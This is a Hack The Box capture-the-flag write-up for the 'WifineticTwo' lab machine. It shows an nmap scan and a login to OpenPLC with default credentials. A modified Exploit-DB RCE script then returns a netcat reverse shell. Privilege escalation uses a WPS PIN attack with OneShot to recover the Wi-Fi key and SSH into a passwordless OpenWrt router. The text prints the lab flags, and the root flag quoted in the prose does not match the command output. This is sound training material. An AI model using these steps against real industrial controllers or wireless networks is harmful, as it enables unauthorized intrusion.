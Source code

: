 ```yaml
---
layout: post
title: "HTB Linux Medium: WifineticTwo"
description: "WifineticTwo is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```


## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.216.2    
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-16 15:16 EDT
Nmap scan report for 10.129.216.2
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwHQ.3dUcgcaRXGE3EcQDnupPafpjZrQ; Expires=Sat, 16-Mar-2024 19:21:45 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:16:45 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: <http://0.0.0.0:8080/login>
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwHQ.gB4EVPvXX9GhZI_B6KFkEnoW-Do; Expires=Sat, 16-Mar-2024 19:21:45 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:16:45 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZfXwHQ.3dUcgcaRXGE3EcQDnupPafpjZrQ; Expires=Sat, 16-Mar-2024 19:21:45 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Sat, 16 Mar 2024 19:16:45 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 16.87 seconds

```


## Enumerate HTTP (Port 8080)
We are redirected to a login page.
![Pasted image 20240714211546.png](/images/Pasted image 20240714211546.png){: .normal }


From the login page we see that OpenPLC is running. After a quick google search, we find that the default credentials are `openplc:openplc`.
![Pasted image 20240714211542.png](/images/Pasted image 20240714211542.png){: .normal }


Authenticated RCE for OpenPLC 3: [PoC](https://www.exploit-db.com/exploits/49803).
![Pasted image 20240714211537.png](/images/Pasted image 20240714211537.png){: .normal }
> Error when compiling.
{: .prompt-warning }


Since we get errors when running the Python exploit we have to make some modifications. Since the error we get is about a file not existing we should take a look at the programs and see what files do exist (we find blank_program.st).
![Pasted image 20240714211532.png](/images/Pasted image 20240714211532.png){: .normal }


Now, to fix the script modify the following line.
```python
compile_program = options.url + '/compile-program?file=blank_program.st' 
```

Execute the Python exploit.
```
┌──(kali㉿kali)-[~]
└─$ python3 shell.py -u <http://10.10.11.7:8080> -l openplc -p openplc -i 10.10.14.234 -r 4445
```

Get the shell connection using nc.
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4445 
listening on [any] 4445 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.11.7] 35188
id
uid=0(root) gid=0(root) groups=0(root)
```

User.txt `8c55214b31b0e8dcdf4248b8032f5d9b`
```
cat user.txt
8c55214b31b0e8dcdf4248b8032f5d9b
```


## Privilege Escalation
We have to start by getting the BSSID.
```bash
root@attica01:/tmp# iwlist wlan0 scanning
wlan0     Scan completed :
          Cell 01 - Address: 02:00:00:00:01:00
                    Channel:1
                    Frequency:2.412 GHz (Channel 1)
                    Quality=70/70  Signal level=-30 dBm  
                    Encryption key:on
                    ESSID:"plcrouter"
                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
                              9 Mb/s; 12 Mb/s; 18 Mb/s
                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
                    Mode:Master
                    Extra:tsf=000613d992b06128
                    Extra: Last beacon: 36ms ago
                    IE: Unknown: 0009706C63726F75746572
                    IE: Unknown: 010882848B960C121824
                    IE: Unknown: 030101
                    IE: Unknown: 2A0104
                    IE: Unknown: 32043048606C
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: Unknown: 3B025100
                    IE: Unknown: 7F080400000200000040
                    IE: Unknown: DD5C0050F204104A0001101044000102103B00010310470010572CF82FC95756539B16B5CFB298ABF11021000120102300012010240001201042000120105400080000000000000000101100012010080002210C1049000600372A000120
```

Use oneshot to get the WPA PSK password: [Link](https://github.com/nikita-yfh/OneShot-C)
```bash
root@attica01:/tmp# sudo ./oneshot -i wlan0 -K --bssid 02:00:00:00:01:00
[*] Running wpa_supplicant...
[*] Trying pin 12345670...
[*] Scanning...
[*] Authenticating...
[+] Authenticated
[*] Associating with AP...
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response...
[*] Received WPS Message M1
[P] E-Nonce: 29e8fb36dbdbc9e7921f1577e7c679c5
[*] Building Message M2
[P] PKR: 6a47896e780650fb548e1e9a17b4ad7ed43b2415fb59828db37ca996d07d930e8998901274148effc234fedd96c57eb693238df1ac7f0e6c52467a67b2007e29fbaaed42def7e8c6cfadcbf0e89295f50394e40de71e6af66f449751ee7e01f97cd0679276402f05cf3040e17cc0eeeb85c164f70b0bfaf11c38469d93999fba13c35cccca1289f6d4a8d2e05cb02ef209f38121eac8dae4b40f7059114889ac25cda69229e19e0516b86ed193c34d6c828072bba4cdc006b95ad0eb9a932963
[P] PKE: 68e60ed4d3011aa949d8599e37892f46b6775075aa5d8a341a37fb370d66c0d5546aa1e432e61dbeb6efaf1bb13ff81751ba983f86dfd86d1febe2dd73e2167683e3272fb3e33157b140ab27cbd7311135a13dbcbebaf21e970949ac7781a063528893144a0afd07409dcb67e7939d666d8a949d03b562949275587e63898c2dd990257bd9e62085085312610dd0c86da3dd1ea8019e715f350a8a2675b56c437198ace25300024cc5bebd44a972202fd4d693b6bb4b79c22ba86f85bb404787
[P] Authkey: 6195bd85a2971ef00fc088c735c6bfdb3b07e45ce7b2fa11a2a3b1fd567adf45
[*] Received WPS Message M3
[P] E-Hash1: 6c0dcaaeaa33d14598bd13d4bc7f88d9da074cb10e10f192f6d1f66b9173f3f0
[P] E-Hash2: 07d847ec86a9ab5370630609c47ac8c2b0028554b305af2caad1f9e4b68bcb33
[*] Building Message M4
[*] Received WPS Message M5
[*] Building Message M6
[*] Received WPS Message M7
[+] WPS PIN: 12345670
[+] WPA PSK: NoWWEDoKnowWhaTisReal123!
[+] AP SSID: plcrouter
```

Since we have the passphrase we can create a config file and apply it to the interface. Once the config is applied we can assign a static IP to the wlan0 interface using ifconfig.
```bash
root@attica01:/tmp# wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config
root@attica01:/tmp# wpa_supplicant -B -c config -i wlan0
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
root@attica01:/tmp# ifconfig wlan0 192.168.1.7 netmask 255.255.255.0
```

Now we can SSH to 192.168.1.1 as the root user.
```bash
root@attica01:/tmp# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.

BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# id
uid=0(root) gid=0(root)
```

Root.txt: `fc8707d25a65532e191b26a431a9d45a`
```bash
root@ap:~# cat root.txt
5a5266a1edbe69715d89098c60c89373
```

### PWNED!!!
![Pasted image 20240714211516.png](/images/Pasted image 20240714211516.png){: .normal }